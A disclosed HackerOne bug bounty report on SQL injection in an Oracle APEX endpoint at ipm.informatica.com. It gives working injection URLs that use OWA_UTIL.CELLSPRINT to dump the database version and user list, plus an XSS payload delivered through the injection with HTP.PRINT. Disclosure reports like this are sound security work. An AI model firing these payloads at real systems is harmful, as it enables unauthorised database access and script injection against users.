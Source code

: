 # [ipm.informatica.com] Sql injection Oracle 

## Report Details
- **Report ID**: 178057
- **URL**: https://hackerone.com/reports/178057
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-10-25T16:54:13.940Z
- **Disclosed**: 2017-01-21T19:05:21.226Z

## Reporter
- **Username**: e3xpl0it
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hi host ipm.informatica.com is vulnerable to sql injection attacks the web application does not produce sufficient validation on user input.

POC
detection
request 1
http://ipm.informatica.com/pls/apex/f?1'=1  response 500 HTTP/1.1 500 Internal Server Error
request 2
http://ipm.informatica.com/pls/apex/f?1''=1 response HTTP/1.1 404 Not Found


exploitation

http://ipm.informatica.com/pls/apex/f?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+banner+FROM+v$version   
  
Oracle Database 11g Release 11.2.0.3.0 - 64bit Production PL/SQL Release 11.2.0.3.0 - Production CORE 11.2.0.3.0 
Production TNS for Linux: Version 11.2.0.3.0 - Production NLSRTL Version 11.2.0.3.0 - Production 

Cross Site Scripting via sql injection 

http://ipm.informatica.com/pls/apex/f?);HTP.PRINT(:1);--=positive<svg/onload=prompt('XSS\u0020via\u0020sql\u0020injection')>

and etc 
http://ipm.informatica.com/pls/apex/f?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS

## Attachments
- sql_versin_.jpg
- sql_versin_burp_.jpg
- sqli_burp_.jpg
- xss_via_sql.jpg
